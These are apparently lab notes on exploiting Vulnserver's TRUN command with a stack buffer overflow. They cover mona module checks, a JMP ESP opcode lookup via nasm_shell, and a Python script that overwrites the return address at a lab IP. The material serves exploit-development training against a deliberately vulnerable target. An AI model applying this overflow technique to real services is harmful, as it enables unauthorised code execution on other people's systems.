


How to find the right module ?_?
So when we talk to find the right module we are looking for a TLL or something similarthat has no memory protection
no DEP
no Aslr
no safe SEH
So there's a tool called Mona Modules that we can use with immunity debugger to achieve this
(i.e. https://github.com/corelan/mona)
We have paste the mona.py file in the following lcoation :
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands

Immunity Debugger :!mona modules

As we can the protection setting and it false for the essfunc.dll (i.e. we are looking for something that is attached to the Vulnserver)
Now will find the Opcode equivalent to a JMP
We are trying to convert Assembly language into Hex code
Kali Linux :
┌──(root㉿kali)-[/home/kali]
└─# locate nasm_shell
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
┌──(root㉿kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000 FFE4 jmp esp
nasm >
Now will take this information (i.e. FFE4 )
Immunuty Debugger :
!mona find -s "\xff\xe4" -m essfunc.dll
We are looking for return addresses

As we got the return pointer address as 625011af
We are writing the address in reverse for a special reason. So whene we are talking about X86 architecture
we are following something called Little Endian format.
X86 stores the lower order byte at the lowest address and the higher order byte at the highest address
Kali Linux :
#!/usr/bin/python
import sys,socket
#625011af
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"
try:
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect(('192.168.205.135',9999))
s.send(('TRUN /.:/' + shellcode))
#s.send(('TRUN /.:/' + offset))
s.close()
except:
print "Error Connnecting To The Server"
sys.exit()
Immuinty Debugger :
Press the arrow (i.e. Bluish Black ) and enter the return address (i.e. 625011af)

Hit F2 and it will turn it blue (i.e. set a break-point as running)
We are going to overflow the buffer but if hit this specific spot it will break the program and it pause it till further instructions.